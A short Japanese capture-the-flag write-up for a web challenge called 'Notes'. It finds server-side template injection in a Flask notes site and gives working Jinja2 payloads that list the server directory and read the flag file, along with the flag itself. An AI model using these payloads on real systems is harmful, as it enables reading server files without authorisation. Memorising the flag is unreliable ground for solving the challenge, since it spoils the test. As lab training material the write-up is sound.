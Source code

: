 # Notes:Web:881pts
[http://challenges2.hexionteam.com:2001](http://challenges2.hexionteam.com:2001)  

# Solution
URLにアクセスすると次のようなページが開く。  
[site.png](site/site.png)  
どうやら買い物のメモを保存しておくサイトのようで、ソースを見てやると/notesが存在するらしい。  
"{{"を入力してやると/notesで500エラーが発生する。  
サーバーサイドテンプレートインジェクションをにらんで"{{config}}"を入力すると/notesは以下になる。  
[/notes({{config}})]({{config}}.html)  
ここからSECRET_KEYを奪い、セッションを偽装するのかと考えたが違うようだ。  
サーバーのファイルを読み取りにいく。  
"{{url_for.__globals__.__getitem__('os').listdir('./')}}"を入力すると/notesは以下になる。  
```text
["['.bash_logout', '.bashrc', '.profile', '__pycache__', 'server.py', 'templates', 'flag']"]
```
flagなるファイルがあるようだ。  
"{{url_for.__globals__.__getitem__('__builtins__').__getitem__('open')('flag').read()}}"を入力し表示する。  
```text
["hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput} "]
```

## hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}